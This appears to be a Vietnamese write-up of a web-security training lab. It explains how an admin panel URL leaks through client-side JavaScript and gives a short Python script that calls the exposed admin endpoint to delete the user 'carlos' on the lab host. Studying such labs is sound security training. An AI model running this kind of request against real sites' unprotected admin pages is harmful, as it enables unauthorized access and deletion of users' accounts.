 ```
https://insecure-website.com/administrator-panel-somerandomcharacters_ah27ds7d
```

Với cách này kẻ tấn công sẽ không thể sử dụng các công cụ quét đường dẫn tìm ra trang này. Tuy nhiên, nếu đường dẫn được sử dụng trong một số code sẽ hiển thị cho người dùng trong source code (chẳng hạn Javascript), thông tin quan trọng vẫn có thể tiết lộ tới người dùng. Xem xét đoạn code sau:

```javascript
<script>
var isAdmin = false;
if (isAdmin) {
	...
	var adminPanelTag = document.createElement('a');
	adminPanelTag.setAttribute('https://insecure-website.com/administrator-panel-somerandomcharacters_ah27ds7d');
	adminPanelTag.innerText = 'Admin panel';
	...
}
</script>
```

Cách hoạt động của đoạn code trên: Kiểm tra vai trò người dùng có phải quản trị viên hay không thông qua giá trị biến isAdmin, nếu đúng sẽ tạo và hiển thị từ Admin panel trên giao diện - đường dẫn tới trang quản trị. Và vô tình cũng đã để lộ đường dẫn này tới người dùng.

<li>quay trở lại với bài mình vào được trang quản trị và xóa carlos</li>

![image](https://hackmd.io/_uploads/rJ071witT.png)

mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0a3900c404e8e970829e069900b10093.web-security-academy.net'

# session = requests.Session()

params = {
    'username': 'carlos',
}

response = requests.get(
    url + '/administrator-panel/delete',
    params=params,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```
